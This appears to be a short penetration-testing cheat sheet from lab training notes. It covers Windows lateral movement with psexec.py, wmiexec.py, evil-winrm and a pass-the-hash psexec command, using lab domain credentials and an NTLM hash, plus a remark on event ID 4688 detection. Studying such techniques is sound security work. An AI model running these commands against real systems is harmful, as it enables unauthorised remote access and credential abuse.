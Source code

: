 ## psexec
```powershell
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 
```

## wmiexec
```powershell
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. The downside of this is that if a vigilant defender checks event logs and looks at event ID 4688: A new process has been created, they will see a new process created to spawn cmd.exe and issue a command. This isn't always malicious activity since many organizations utilize WMI to administer computers, but it can be a tip-off in an investigation

## evil-winrm
```powershell
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

# Pass-The-Hash

## psexec
```bash
psexec administrator@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```